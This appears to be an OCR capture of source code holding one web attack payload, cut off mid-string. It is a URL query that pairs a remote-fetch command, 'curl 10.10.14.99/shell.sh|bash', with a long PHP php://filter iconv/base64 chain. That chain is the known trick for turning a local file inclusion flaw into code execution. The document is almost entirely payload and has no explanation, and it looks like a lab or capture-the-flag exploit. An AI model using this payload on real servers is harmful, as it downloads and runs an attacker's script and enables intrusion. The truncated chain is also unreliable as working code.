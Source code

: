 ~~~
/?c=curl+10.10.14.99/shell.sh|bash&page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UT
~~~